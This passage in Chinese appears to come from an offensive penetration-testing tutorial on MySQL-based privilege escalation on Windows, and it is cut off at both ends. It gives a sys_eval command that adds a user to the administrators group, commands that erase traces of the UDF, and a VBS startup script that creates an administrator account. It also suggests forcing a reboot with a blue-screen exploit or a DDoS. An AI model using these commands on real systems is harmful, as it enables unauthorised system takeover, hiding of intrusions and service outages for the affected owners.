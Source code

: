   
  
将该用户提升为管理员权限：
```
select sys_eval(&#34;net localgroup administrators ichunqiu /add&#34;)
```

  
  
- 清除痕迹  

```
drop function sys_eval;
```

  

```
delete from mysql.func where name=&#34;sys_eval&#34;;
```

  
  
#### 启动项提权  
- 原理：windows开机时候都会有一些开机启动的程序，那时候启动的程序权限都是system，因为是system把他们启动的，利用这点，我们可以将自动化脚本写入启动项，达到提权的目的。将一段vbs脚本导入开机启动项，如果管理员重启了服务器，那么就会自动调用，并执行其中的用户添加及提权命令  
  
- 利用条件：  
  
- 目标目录可读写  
  
- 调用的cmd要有足够权限  
  
- 重启服务器可以利用导致服务器蓝屏的exp，或者ddos  
  
- 提权方式  
  
- 直接将vbs提权脚本上传到启动项目录下  
  
- sql命令创建添加vbs脚本  
  
vbs提权脚本：  

```
set wsnetwork=CreateObject(&#34;WSCRIPT.NETWORK&#34;)
os=&#34;WinNT://&#34;&wsnetwork.ComputerName
Set ob=GetObject(os) #得到adsi接口
Set oe=GetObject(os&&#34;/Administrators,group&#34;) #用户组
Set od=ob.Create(&#34;user&#34;,&#34;name&#34;) #name为用户名
od.SetPassword &#34;passwd&#34; #passwd为密码
od.SetInfo #保存
Set of=GetObject(os&&#34;/name&#34;,user) #得到用户
oe.add os&&#34;/name&#34;
```

- sql命令创建  
  
- 连接到对方MySQL服务器,进入后查看数据库中有哪些数据表  
  
- 命令:show tables  
  
- 默认的情况下，test中没有任何表的存在。  
  
- 进入test数据库，并创建一个新的表:  
